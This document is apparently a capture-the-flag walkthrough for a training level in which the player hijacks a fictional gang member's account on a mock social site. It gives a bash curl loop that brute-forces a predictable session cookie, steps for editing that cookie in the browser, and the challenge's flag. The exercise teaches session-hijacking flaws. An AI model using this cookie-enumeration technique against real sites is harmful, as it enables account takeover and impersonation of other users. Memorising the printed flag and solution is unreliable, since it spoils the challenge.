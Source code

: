 # 🎰 Account Roulette - L12 C03

Agent 707, remember the social media website from the previous level where Bulldog gang member Darren Greggs posted that cryptic message? If we could log in as Darren we could post messages as him and confuse other gang members. Unfortunately we don't have his login details, but we're sure you can find another way to log in as him using a possible vulnerability we think exists.

We have logged in as a random test user that we created and have gone to an old message Darren posted. See if you can use that access to log in to other accounts, then check the response to see who you are logged in as, aiming to find access Darren's account (his username is thedazman).

**Tip:** Understand what identifies the users logged in state to start.

```
💡 Hint: Can you find an ID for the logged-in user?
   You’ll need to cycle through all the possible values and check which account you’re logged in as,
   to try to find Darren’s account (thedazman). It’s possible to automate this with CURL or Python.
```

## Step by Step

- To find which account belongs to thedazman, use this bash script: `for i in {0..100}; do echo $i; curl -s -b "speek_sess_id=$i" https://wespeektogether.com/thedazman/status/74635478354 | grep "as thedazman"; done`
- Once the grep command was successful press ctr + c to stop the script, `49` should be the number showing up right before the grep result
- Use inspect element to go to the “Application” tab to edit cookies.
- Alter cookie called “`speek_sess_id`” to hold the value “`49`"
- Reload the page and the flag will show

`flag: l5r6P2qys2w6M3bEvk8p`

